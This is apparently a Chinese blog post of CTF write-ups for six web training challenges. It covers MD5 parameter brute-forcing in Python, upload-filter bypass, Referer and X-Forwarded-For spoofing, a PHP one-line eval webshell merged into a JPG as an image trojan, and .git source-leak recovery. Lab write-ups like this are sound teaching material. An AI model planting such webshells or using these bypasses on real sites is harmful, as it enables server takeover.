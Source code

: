 ```yaml
---
layout: post
tags: CTF
title: "帽子戏法Web训练（一）"
category: CTF
excerpt: 帽子戏法Web训练题解
---
```

> 如果觉得这篇文章写的不错，来给我[打赏鼓励](https://github.com/miaochiahao/miaochiahao.github.io/blob/master/pictures/alipay.jpg?raw=true)一下吧~我会写出更好的文章

### [Burp/Python](http://218.76.35.75:20115)

首先观察题目可得，三个链接点进去后是三个不同的地址，前两个的地址栏最后的参数都是MD5值，解密可得分别为bob317，sam429。因此猜测第三个参数应该为“slash+三位数”，在此采用爆破的思想。

{% highlight python %}
# -*- coding:gbk -*-
import hashlib
import urllib

for i in range(100,1000):

	src = "slash"+str(i)
#	print src
	payload = hashlib.md5()
	payload.update(src)
	payload = payload.hexdigest()
#	print payload
	file = urllib.urlopen("http://218.76.35.75:20115/index.php?page="+str(payload))
	if '\xe6\x96\x87\xe4\xbb\xb6\xe4\xb8\x8d\xe5\xad\x98\xe5\x9c\xa8\xef\xbc\x8c\xe8\xaf\xb7\xe8\xbf\x94\xe5\x9b\x9e\xe3\x80\x82' not in file.readlines():
		print "Got it! "+"The answer is "+ payload
	else:
		print "The answer is not "+ payload
{% endhighlight %}

![web1](http://oc42vgpoj.bkt.clouddn.com/web1.png)


### [文件上传/BurpSuite](http://218.76.35.75:20122)

题目要求上传文件，先任意上传一个文件，发现显示`only accept jpg file~`，而当上传JPG文件时，发现显示`upload success,but not php!`，也就是说我们需要把一个PHP文件，以JPG文件格式上传。（其实也有可能是把一个JPG文件在后缀名改为PHP，但考虑到实际用途可能是在网站利用文件上传漏洞上传一句话木马还是觉得前面的说法靠谱一点。）

于是Burp抓包修改之~
![web2](http://oc42vgpoj.bkt.clouddn.com/web2.png)

![web2_flag](http://oc42vgpoj.bkt.clouddn.com/web2_flag.png)

### [BurpSuite](http://218.76.35.75:20127/)

点进去以后发现上面写着
> To the world you may be just somebody  
> im not admin~  

猜想需要将用户身份伪装成admin，于是开启Burp截获数据，发现了前面有一个User变量，后面是一个三位数，爆破之~

先用Python生成了一个三位数字典文件
![web3_dict](http://oc42vgpoj.bkt.clouddn.com/web3_dict.png)

然后用Burp加载爆破，最后结果不一样的就是我们需要的答案。

![web3_res](http://oc42vgpoj.bkt.clouddn.com/web3_res.png)

Flag如下

![web3_flag](http://oc42vgpoj.bkt.clouddn.com/web3_flag.png)

### [BurpSuite](http://218.76.35.75:65280/)

进去以后发现了一个提交密码的页面并且提示了需要伪造IP和来源，然而密码并没有。试着提交了下，然后收集了返回的信息（Send to repeater）

发现了一个MD5形式的密码，解码为`cafe`

![web4_pass](http://oc42vgpoj.bkt.clouddn.com/web4_pass.png)

然后通过`Referer`来伪造来源，通过`X-Forwarded-For`来伪造IP

![web4_answer](http://oc42vgpoj.bkt.clouddn.com/web4_answer.png)

得到Flag

![web4_flag](http://oc42vgpoj.bkt.clouddn.com/web4_flag.png)

### [BurpSuite](http://218.76.35.75:20103/)

发现是一个文件上传，而且上传后能读取图片，于是考虑合成图片木马

先写了一个一句话木马的PHP文件 Trojan.php

{% highlight php %}
<?php @eval($_POST['pass']);?>
{% endhighlight %}

然后选取了一张可以上传的图片 Photo.jpg  
用命令`copy Photo.jpg/b + Trojan.php/a Final.jpg`  
其中b表示二进制文件，a表示ASCII文件  
将此文件上传即可

### [Git文件泄露](http://218.76.35.75:20104/)

> 测试了一遍以后，发现应该存在漏洞的点，均不存在漏洞的时候，就需要考虑源码泄漏了
> * robots.txt
>
> * 临时文件泄露 
>   list=[“.swp”,”.bak”,”~”,”zip”,”.tar.gz”,”.rar”,”.tar”,”.old”,”.7z”,”.gz”,”.txt”,”.inc”,”.copy”,”.src”,”.tmp”,”.orig”,”.dev”,”.idea”]
>
> * Git .git文件夹
>
> * SVN .svn
>
> * DS_store CVS                
>
>   ​                                                                                                                        by 默小西

经过提示发现是.git文件泄露，一开始用了`GitHack.py`工具，得到了PHP文件源码，但是并没有什么用。

后来发现思路错了，应该是Git版本问题，所以找到了`rip-git.pl`工具，与上面工具不同的地方在于这个还可以下载到Git配置文件

![file_rip-git](http://oc42vgpoj.bkt.clouddn.com/file_rip-git.png)

于是使用`git log`查看版本，恢复到之前的版本后发现`Hack.php`文件内出现了Flag

![file_log](http://oc42vgpoj.bkt.clouddn.com/file_log.png)

得到Flag

![file_flag](http://oc42vgpoj.bkt.clouddn.com/file_flag.png)

PS. 关于`rip-git.pl`可在[此处](https://www.secpulse.com/archives/6275.html)了解更多

